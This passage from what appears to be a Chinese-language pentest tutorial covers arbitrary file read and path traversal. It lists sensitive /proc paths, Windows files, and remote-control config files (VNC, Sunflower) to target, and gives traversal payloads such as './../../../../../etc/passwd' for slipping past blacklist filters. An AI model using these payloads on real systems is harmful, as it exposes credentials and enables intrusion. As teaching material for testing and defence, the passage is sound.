 ```bash
123      141  18       20296    2297919  249876   4       511     95017      filesystems  locks        slabinfo      xen
124      142  1838601  2041619  2297920  249886   41207   518     acpi       fs           mdstat       softirqs      zoneinfo
125      15   1893933  21       2297921  249889   41208   519     buddyinfo  interrupts   meminfo      stat
```

通过读取进程 ID 目录下的的 cmdline 文件，来获取进程命令行参数。

```bash
/proc/<Process ID>/cmdline
```

如果权限够大还可能读取到其他内容呢，这里给出一些字典，但是没详细描述其作用。

```bash
/proc/1/fd/1
/proc/self/environ
/proc/version
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
```

### Windows

Windows 下不知道怎么确认漏洞，可以尝试的读取

C:\\Windows\\win.ini  
C:\\Windows\\System32\\drivers\\etc\\hosts  
iconcache.db

远控配置文件：  
老版本 VNC  
向日葵读取 config.ini 文件

甚至有些管理员习惯临时存个文件取名比较简单 C:\\Users\\Administrator\\Desktop\\1.txt，可以多遍历这些数字，如 1-10。

## 绕过

错误的防护策略依旧还是黑名单思路，比如剔除字符或检查黑名单字符，一旦规则不完善容易遗漏。

检查开头是不是 ..，可以尝试绝对路径，这个 . 表示当前路径 /etc，不会干扰获取内容。

```bash
/etc/./passwd
```

只检查开头是不是包含 ../，可以 ./ 绕过，后面 ../ 不管向上跳多少目录，最终只会回到根目录。

```bash
./../../../../../etc/passwd
```
